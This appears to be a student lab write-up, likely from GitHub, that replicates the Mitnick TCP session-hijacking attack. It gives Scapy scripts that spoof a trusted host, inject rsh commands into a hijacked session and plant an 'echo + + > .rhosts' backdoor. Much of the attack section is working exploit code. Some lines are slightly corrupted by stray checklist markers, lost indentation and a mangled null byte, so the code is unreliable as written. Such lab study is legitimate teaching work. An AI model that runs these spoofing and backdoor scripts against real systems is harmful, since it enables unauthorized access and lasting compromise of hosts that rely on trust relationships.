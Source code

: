 # Case-study-replicating-the-Mitnick-Attack-a-TCP-session-hijacking-technique

In this report, we are executing a multi-step attack that exploits trust relationships in networked systems. First, would be to initiate a SYN flooding attack to make the trusted server unresponsive, preventing it from resetting a spoofed TCP connection. While the server is withheld, TCP sequence number prediction is performed, analysing patterns in sequence numbers to craft valid packets that appear authentic. With this information, session hijacking and spoofing is executed by forging a connection between the trusted server and the target system. Once access is gained, an rsh command is injected into the hijacked session, modifying the .rhosts file to create a conveniently accessible backdoor. This allows us to maintain unauthorized access in the future without requiring authentication, effectively compromising the system’s security.

Vulnerabilities Exploited
The attack exploits weaknesses in the TCP/IP protocol, particularly the predictability of TCP sequence numbers and the trust relationships between systems.
Experiments

The attack consisted of several key steps:
● SYN Flooding to Silence the Trusted Server
● TCP Sequence Number Prediction
● Session Hijacking & Spoofing
● Backdoor Implantation 

Key Components of the Attack Scenario 
● Target System: X-Terminal (the system that we want to access)
● Trusted Server: A system with pre-established, password-free access to X-Terminal 

Network Topology 
[Attacker] --- (Spoofed Traffic) ---> [Target System (X-Terminal)] | |--> [Trusted Server (Silenced)]

Spoofing the Trusted Host:
 
    from scapy.all import *
    - [ ] jeythaip = IP(src="10.9.0.5", dst="10.9.0.6")
    venktop = TCP(sport=1023, dport=514, flags="S", seq=778933536)
    - [x] pkt = jeythaip/venktop
    ls(pkt)
    send(pkt, verbose=0)

Predicting TCP Sequence Numbers:

    from scapy.all import *
    jeythaip = IP(src="10.9.0.5", dst="10.9.0.6")
    venktcp = TCP(sport=1023, dport=514, flags="A", seq= 778933537, ack=399324157)
    if venktcp.flags == "A":
    print("Establishing ACK packet")
    data = '9090\x00seed\x00dees\x00touch /tmp/xyz\x00'
    pkt = jeythaip/venktcp/data
    ls(pkt)
    send(pkt, verbose=0)

Setting Up the Backdoor:

    from scapy.all import *
    jeythaip = IP(src="10.9.0.5", dst="10.9.0.6")
    venktop = TCP(sport=1023, dport=514, flags="A", seq= 778933537, ack=399324157)
    if venktop.flags == "A":
    print("Establishing ACK packet")
    data = '9090\x00seed\x00dees\x00echo + + > .rhostsx00'
    pkt = jeythaip/venktop/data
    ls(pkt)
    send(pkt, verbose=0)
